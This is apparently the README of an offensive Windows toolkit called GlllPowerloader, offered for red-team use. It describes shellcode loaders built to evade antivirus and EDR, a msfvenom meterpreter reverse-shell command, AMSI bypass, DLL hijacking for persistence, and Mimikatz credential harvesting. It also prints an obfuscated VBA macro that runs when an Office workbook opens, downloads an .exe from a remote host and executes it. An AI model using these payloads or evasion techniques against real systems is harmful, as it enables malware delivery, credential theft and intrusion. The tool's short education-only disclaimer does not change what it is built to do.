# GlllPowerloader


- [1.前言](#1前言)
- [2.功能](#2功能)
- [3.使用](#3使用)
  - [0x01.环境安装](#0x01环境安装)
  - [0x02.shellcode loader的使用](#0x02shellcode-loader的使用)
  - [0x03.Automation\_loader](#0x03automation_loader)
  - [0x04.文件格式转换](#0x04文件格式转换)
  - [0x05.自动化生成代理DLL](#0x05自动化生成代理dll)
  - [0x06.文件捆绑和上传](#0x06文件捆绑和上传)
  - [0x07.Netcat监听\&\&反弹shell](#0x07netcat监听反弹shell)
  - [0x08.内网凭据收集](#0x08内网凭据收集)
  - [0x09.shellcode加密解密](#0x09shellcode加密解密)
  - [0x10.Nim自动化嵌入宏代码](#0x10nim自动化嵌入宏代码)
  - [0x11.脚本命令混淆](#0x11脚本命令混淆)
    - [1.cmd命令混淆](#1cmd命令混淆)
    - [2.Powershell命令混淆](#2powershell命令混淆)
    - [3.powershell图片隐写术](#3powershell图片隐写术)
- [4.更新](#4更新)
- [5.免责声明](#5免责声明)
- [6.结语](#6结语)

# 1.前言

* 许多内网场景或处于红队评估的渗透测试工作中经常会遇到各种AV/EDR，此前我已经在工作中编写了大量的Shellcode loader用于绕过防病毒，由于每次使用时需要编译二进制文件，频繁地打开臃肿的IDE已经让我疲惫不堪，因此我想编写一个自动化工具来快速并且批量地编译二进制文件，旨在提升工作效率。为方便框架中C#、powershell代码的自动化，目前Powerloader只支持windwos平台，您需要根据所在windows系统版本选择不同的.NET Framework版本

* 不要上传Virus total相关的在线沙箱平台，请下载相关的AV/EDR去测试它们的可靠性

* 不要语言攻击我，这只是一个公益学习项目


# 2.功能


|       功能        |                         描述                          |
| :---------------: | :---------------------------------------------------: |
|   1.免杀加载器    |            拥有十种以上的shellcode加载方式            |
|  2.文件格式转换   |              Windows中文件格式之间的转换              |
|    3.权限维持     |         生成代理劫持的Dll，用于持久化渗透测试         |
|    4.文件捆绑     |             1.捆绑文件异步执行2.上传文件              |
|    5.反弹Shell    |         获取一个交互式的反向Shell并绕过AV/EDR         |
|  6.获取密码凭证   |            通过powershell脚本收集内网信息             |
|  7.shellcode加密  |                 16进制的shellcode加密                 |
|  8.钓鱼文件生成   |               Nim Lang自动化嵌入宏代码                |
|  9.脚本命令混淆   | 1.cmd命令混淆2.Powershell命令混淆3.powershell脚本隐写 |
| 10.Netcat建立监听 |                  自定义端口单点监听                   |




# 3.使用

## 0x01.环境安装

您必须下载并安装以下环境：

1.Mingw64(C/C++)的编程环境：https://github.com/niXman/mingw-builds-binaries/releases/download/12.2.0-rt_v10-rev2/x86_64-12.2.0-release-posix-seh-msvcrt-rt_v10-rev2.7z

将bin目录添加至环境变 量即可

2.Golang编程环境：https://go.dev/dl/go1.19.4.windows-amd64.msi

3.Nim编程环境：

Nim下载：https://nim-lang.org/install.html

将bin目录添加至环境变量

您还需要下载Winim：https://github.com/khchen/winim

```
cd winim-master
nimble install
```




Powerloader运行还需要python3的编程环境，您需要去官网下载它们的安装包，并且在windows中添加它们的环境变量

验证是否安装成功：




如果您在windows中安装了Git，就可以这样使用：

```
git clone https://github.com/INotGreen/GlllPowerloader.git
cd GlllPowerLoader-master
pip install -r requirements.txt
start.bat
```


## 0x02.shellcode loader的使用



该模块一共携带13种shellcode加载方式，由于AV/EDR是实时更新的，开源工具显然不能有效地绕过高级AV/EDR，或许某些加载模块仍然可以绕过Microsoft Defender，但是大部分ShellcodeLoader已经被高级AV/EDR抓住(例如Kaspersky、Norton、Bitdefender、ESET Nod32......),这也是我选择将它们开源的原因


以CobaltStrike/Metasploit的攻击载荷为例，您需要生成stager/stageless的bin文件

CobaltStrike：


Metasploit:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.0 LPORT=4488 -f raw -o payload.bin
```



依次选择注入模式、payload、要注入的进程即可在桌面生成二进制文件。

其它语言的loader也是大同小异，只要有编程环境就可以编译成功。


## 0x03.Automation_loader

* 注意C#和Nim的Automation_loader，这个模块是用来编译powershell脚本的，因此您需要将powershell脚本上传到网页上，例如：https://pastebin.mozilla.org/.
* powershell和C#相对于其它语言的免杀有更好的效果，但是.NET版本限制也是一大软肋，好在我已经解决了版本限制问题，这样显得它不会更糟糕.




## 0x04.文件格式转换




在ps1_to_vbs我添加了bypass AMSI的效果并且采用远程加载powershell，因此您只需要将powershell上传到网页上即可

## 0x05.自动化生成代理DLL





这里使用了C/C++的loader，只是添加了DllMain(),如果您熟悉Dll hijacking技术就可以愉快地使用它了


## 0x06.文件捆绑和上传

目前不考虑对外开放文件捆绑功能


## 0x07.Netcat监听&&反弹shell

为了避免在kali Linux上使用nc，我将它的二进制文件搬到了windows上（方便测试），您可以选择模块5 && 10进行测试，




Nim Socket这是我很早之前的项目：https://github.com/INotGreen/Nim-Lang-Bypass

直到现在我仍然相信它可以Bypass kaspersky


<video src="https://user-images.githubusercontent.com/79864975/183701072-33ca68a2-74cd-435b-9069-745062e308e6.mp4](https://user-images.githubusercontent.com/89376703/208883213-f0bfab92-efa3-491f-961d-717eb4322104.mp4"></video>


## 0x08.内网凭据收集



原谅我的懒惰，这只是一个剪切板，用来记录不同powershell执行的命令，这里我只是给了几个例子，您可以在Stub\Get_Credentials.ps1中添加您经常使用的powershell命令，可以在这里下载源代码：https://github.com/INotGreen/Invoke-SharpOffensive


功能：

[+] 1.获取明文登入密码

[+] 2.Patch-AMSI && Pacth-ETW && Unhook win32 API

[+] 3.Mimikatz获取登入明文密码

[+] 4.在不接触 LSASS 的情况下检索 NTLM 哈希


## 0x09.shellcode加密解密


<video src="https://user-images.githubusercontent.com/89376703/208888479-17ac64fc-ae84-43be-9b5b-27f182dce58c.mp4"></video>


## 0x10.Nim自动化嵌入宏代码

实际上Python、C#都可以向office中嵌入宏代码，之所以选择Nim去完成这项工作是因为我想尝试并熟悉这个强大的编程语言，您可以在Stub\Macro_stub.nim中查看它的工作原理

这是一段经过了混淆的VBA代码示例

```vb
Const nttlhoxkct = 2
Const iiteeob = 1
Const wibykrztfufyal = 0
#If VBA7 Then
Private Declare PtrSafe Function jdyrkvwyjssyrfrtgo Lib "urlmon" Alias "URLDownloadToFileA" (ByVal nfzikibxsdvo As Long, _
ByVal nfyeruzflbcyhef As String, ByVal amceoykkquja As String, ByVal estmiwpcwa As Long, _
ByVal phlqgkhyboalui As Long) As Long
#Else
Private Declare Function jdyrkvwyjssyrfrtgo Lib "urlmon" Alias "URLDownloadToFileA" (ByVal nfzikibxsdvo As Long, _
ByVal nfyeruzflbcyhef As String, ByVal amceoykkquja As String, ByVal estmiwpcwa As Long, _
ByVal phlqgkhyboalui As Long) As Long
#End If

Sub Workbook_Open()
spath = CreateObject(ealdczqdfdpyamq("5753637269") & ealdczqdfdpyamq("70742e5368656c6c")).SpecialFolders(ealdczqdfdpyamq("4170706461") & ealdczqdfdpyamq("7461"))
x = jdyrkvwyjssyrfrtgo(wibykrztfufyal, ealdczqdfdpyamq("68747470733a2f2f7472612e736665722e72682f6765742f3042534971452f436269656e74342e302e657865"), spath & ealdczqdfdpyamq("5c74657374") & ealdczqdfdpyamq("2e657865"), wibykrztfufyal, wibykrztfufyal)
Set ryrsjwtpvcgqbhrko = CreateObject(ealdczqdfdpyamq("57536372697074") & ealdczqdfdpyamq("2e5368656c6c"))
ryrsjwtpvcgqbhrko.Exec (spath & ealdczqdfdpyamq("5c74") & ealdczqdfdpyamq("6573742e657865"))
End Sub
Function ealdczqdfdpyamq(ByVal idxsvoije As String) As String
Dim tvcdiaakpb As Long
For tvcdiaakpb = 1 To Len(idxsvoije) Step 2
ealdczqdfdpyamq = ealdczqdfdpyamq & Chr$(Val("&H" & Mid$(idxsvoije, tvcdiaakpb, 2)))
Next tvcdiaakpb
End Function
```

* 绕过防病毒的必要条件：

这仅是一段远程下载文件的VBA代码，本质上并没有什么恶意，但是黑客们可以利用它们在office中下载恶意软件，这极大增加了安全隐患，因此，防病毒软件对此很敏感。您在选择文件时必须选择一个经过FUD(免杀)处理的二进制文件，否则在上传时会被检测为病毒，在文件落地时也会被defender检测为恶意软件。我并不能保证它可以完全绕过Microsoft Defender以外的防病毒，这只是一个用来学习测试的项目。


<video src="https://user-images.githubusercontent.com/89376703/208883483-577d3038-9329-49a2-ae60-94a733545896.mp4"></video>

## 0x11.脚本命令混淆


首先您需要在管理员的Powershell中执行

```
Set-ExecutionPolicy Unrestricted
```




### 1.cmd命令混淆

```
set command calc
encoding
2
```




一切都来源于：https://github.com/danielbohannon/Invoke-DOSfuscation


### 2.Powershell命令混淆


在渗透测试中遇到Microsoft Defender的场景，使用敏感的Powershell通常会被AMSI拦截，用Invoke-Obfuscation去混淆powershell代码，直至2022年，这都非常有效。

powershell命令混淆

```powershell
set scriptblock calc
token
all
1
out ..\payload1.ps1
```

powershell脚本混淆

```powershell
set scriptpath C:\Users\admin\Desktop\payload.ps1
token
all
1
out ..\payload1.ps1
```

一切都来源于：https://github.com/danielbohannon/Invoke-Obfuscation

### 3.powershell图片隐写术

这个项目最初来源于：https://github.com/peewpw/Invoke-PSImage

我对它进行了修改，并且绕过Windows Defender

您只需要选择powershell脚本即可，全程自动化非常舒服


# 4.更新

[+] 2022年12.21，Powerloader发布


# 5.免责声明

该工具仅用于网络安全教育和研究，禁止用于非法途径，我对您由使用或传播等由此软件引起的任何行为和/或损害不承担任何责任。您对使用此软件的任何行为承担全部责任，并承认此软件仅用于教育和研究目的。下载本软件或软件的源代码，您自动同意上述内容。

# 6.致谢

在编写Powerloader时学习了很多前辈的项目，在此我非常感谢他们

关于C/C++的加载器 ，我参考了它的部分代码和框架格式，这非常有意义：https://github.com/icyguider/Shhhloader，

还有Nim惊人的项目：https://github.com/byt3bl33d3r/OffensiveNim

感谢：https://github.com/danielbohannon/Invoke-DOSfuscation

https://github.com/peewpw/Invoke-PSImage
